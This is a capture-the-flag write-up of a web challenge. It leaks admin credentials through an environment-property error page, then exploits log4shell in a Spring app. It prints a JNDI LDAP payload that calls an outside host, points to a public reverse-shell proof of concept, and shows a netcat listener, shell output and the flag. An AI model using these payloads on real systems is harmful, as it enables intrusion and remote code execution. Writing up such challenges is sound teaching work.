






# Logforge
**Category: Web**

This challenge gives us a scenic forest to look at:



The only other available page is the login screen:



Trying to log in just calls to the error page with a `?dbmsg=err.401` query parameter:



The challenge source was provided. Let's take a look at how the authentication works:

```java
@Configuration
@EnableWebSecurity
public class LogForgeSec extends WebSecurityConfigurerAdapter
{
    @Value("${app.admin}")
    public String username;
    @Value("${app.password}")
    public String password;
    
    protected void configure(final HttpSecurity http) throws Exception {
        ((HttpSecurity)((HttpSecurity)((FormLoginConfigurer)((FormLoginConfigurer)((FormLoginConfigurer)((FormLoginConfigurer)((HttpSecurity)((ExpressionUrlAuthorizationConfigurer.AuthorizedUrl)((ExpressionUrlAuthorizationConfigurer.AuthorizedUrl)http.authorizeRequests().antMatchers(new String[] { "/dashboard**" })).authenticated().anyRequest()).permitAll().and()).formLogin().loginPage("/login").permitAll()).defaultSuccessUrl("/dashboard")).failureUrl("/errpg?dbgmsg=err.401")).permitAll()).and()).logout().permitAll().and()).exceptionHandling().accessDeniedPage("/errpg?dbgmsg=err.401");
    }
    
    @Bean
    public UserDetailsService userDetailsService() {
        System.out.println(this.username);
        final UserDetails user = User.withDefaultPasswordEncoder().username(this.username).password(this.password).roles(new String[] { "USER" }).build();
        return (UserDetailsService)new InMemoryUserDetailsManager(new UserDetails[] { user });
    }
}

```

The first function makes sure requests to the `dashboard**` endpoint are authenticated, and redirects unauthorized requests to `/errpg?dbgmsg=err.401`.

The second function sets up a user to use. Interestingly, the user is created with a username and password with values provided by environment variables, `app.admin` and `app.password`.

Let's take a look at the error controller:

```java
@Controller
public class LogForgeErrorController implements ErrorController
{
    @GetMapping({ "/errpg" })
    public String handleError(@RequestParam(name = "dbgmsg", required = false) final String dbgmsg, final HttpServletRequest request, final HttpServletResponse httpResponse, final Model model) {
        final Object status = request.getAttribute("javax.servlet.error.status_code");
        model.addAttribute("code", status);
        model.addAttribute("msg", (Object)dbgmsg);
        return "errpage";
    }
}

```

The model is set up with the `code` being the status code and the `msg` being the `dbmsg` query parameter that we passed in. Let's look at the template that this renders:

```html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<meta http-equiv="refresh" content="1;url=/" />

<body>
    <h1 class="heading" th:text="${code} != null ? 'ERROR : ' + ${code} + '!' : 'ERROR!'" />
    <h2 class="heading" th:text="${msg} != null ? 'Error : ' + ${@environment.getProperty(msg)} : 'Our Engineers are on it!'" />
</body>

</html>
```

The error message gets pulled from an environment variable! This means we could supply our own `dbmsg` and pull whatever environment variable we want. Like the default login credentials, perhaps?

Replacing the error variable name with the username environment variable gives us the username:



Same thing with the password:



Now we can log in with `administrator` / `Lumberj4ck123!`, and see a dashboard where we can create and delete trees:



According to the `pom.xml` file, the server uses the `2.14.0` version of the `log4j` library, which is vulnerable to the log4shell remote code execution attack. There is an explanation of this attack [here](https://www.lunasec.io/docs/blog/log4j-zero-day/). Very briefly, you can get a server to run whatever code you want by making it log a string that makes the server contact a remote source to evaluate the string. 

Looking around, we can see `log4j` being used in the endpoint that deletes the trees:

```java
@RequestMapping(value = { "/dashboard/del" }, method = { RequestMethod.POST })
public String dashdel(@RequestParam(name = "orderId", required = true) final int orderId, @RequestParam(name = "comment", required = false, defaultValue = "no reason given.") final String comment, final HttpServletRequest request) {
    final ArrayList<ForgeRequest> sessOrders = (ArrayList<ForgeRequest>)request.getSession().getAttribute("orders");
    if (orderId >= 0) {
        sessOrders.remove(orderId);
    }
    request.getSession().setAttribute("orders", (Object)sessOrders);
    LogForgeController.logger.info("Removing OrderId " + orderId + ", " + comment);
    return "redirect:/dashboard";
}
```

The delete api takes an `orderId` and a `comment` and will log them. We can pass a malicious payload through as the comment to inject our own code into the server. First, we can do a basic test to see if this is vulnerable. On https://log4shell.tools/ we can get a test payload, and pass it along into our delete request. I appended the provided payload string from `log4shell.tools` as the `comment` to the delete request:

```http
POST /dashboard/del HTTP/1.1
Host: tenable-logforge.chals.io
...

_csrf=bbe1e234-4fa1-4e13-9a7a-44dedf64e187&orderId=0&comment=${jndi:ldap://c08c85cf-5952-435c-94d1-8ca4b46ace19.dns.log4shell.tools:12345/c08c85cf-5952-435c-94d1-8ca4b46ace19}
```

Right away I could see a log message appear on the log4shell site, `GET request for RCE payload payload received`. Let's escalate this vulnerability to shell access.


I found [this log4j exploit](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py) script on GitHub with an exploit ready to go. Briefly, this script will:
1. Create a compiled java file that creates a reverse shell to your machine
1. Set up a web server to serve that malicious file
1. Set up an LDAP server that directs requests to that web server
1. Create a loggable jndi string to resolve to that LDAP server

Once the exploit was running, I used netcat to listen for the reverse shell connection:

```sh
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

I sent the exploit string as the comment, and received a connection:

```sh
Connection received on 127.0.0.1 33424
ls

app
bin
dev
etc
flag.txt
home
lib
media
mnt
proc
root
run
sbin
srv
sys
tmp
usr
var

cat flag.txt

flag{log4j_1n_th3_l0g_f0rg3}
```
